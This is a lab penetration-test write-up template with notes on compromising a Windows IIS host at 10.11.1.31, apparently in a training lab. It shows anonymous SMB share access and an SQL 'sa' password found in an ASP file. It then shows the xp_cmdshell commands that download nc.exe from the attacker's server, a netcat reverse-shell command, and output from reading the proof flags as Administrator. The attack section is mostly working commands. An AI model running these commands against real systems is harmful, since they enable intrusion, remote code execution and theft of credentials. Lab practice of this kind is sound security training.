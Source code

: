 # Summary
# Location
- IP Address: 10.11.1.31
## System Information
- OS: Ubuntu
- Kernal:
- Hostname: 
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### OS
- uri:
- username:
- password:

## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)

## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th


Microsoft-IIS/10.0
ASP.NET

cnn.open "PROVIDER=SQLOLEDB;DATA SOURCE=RALPH;User ID=sa;PWD=poiuytrewq;DATABASE=bankdb"
sa:poiuytrewq:bankdb


1. smbclient -L \\10.11.1.31
find a directory wwwroot

2. login smb
smbclient -N \\10.11.1.31\wwwroot

get all the file

in login-off.asp  found a possible sql account. sa:poiuytrewq

4. try connectting the sql server
impacket-mssqlclient sa:poiuytrewq@10.11.1.31


5. get the nc.exe
Attacker: Start webserver providing nc.exe
SQL: exec xp_cmdshell "powershell -c cd C:\users\public;wget http://192.168.45.188/nc.exe -o .\nc.exe";

6. get the reverseshell
Attacker: nc -lnvp 4444
SQL: exec xp_cmdshell "powershell -c cd C:\users\public;.\nc.exe -e powershell.exe 192.68.45.188 4444";




Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----       11/11/2019  12:09 PM             32 network-secret.txt            
-a----        11/1/2019   1:19 PM             32 proof.txt                     


PS C:\Users\Administrator\Desktop> type network-secret.txt
type network-secret.txt
7eab8563146f16140c769072580cbcb3

it is for IT Network

PS C:\Users\Administrator\Desktop> type proof.txt
type proof.txt
dec04ea1c0d39acd7a53c543540b0a3a
PS C:\Users\Administrator\Desktop>



# Exploitation
## Exploit 1
- Title: 
- CVE: 
- EBD-ID: 
- Link: 

## Exploit 2
- Title: 
- CVE:
- EBD-ID: 
- Link: 

## Exploit 3
- Title:
- CVE:
- Link:

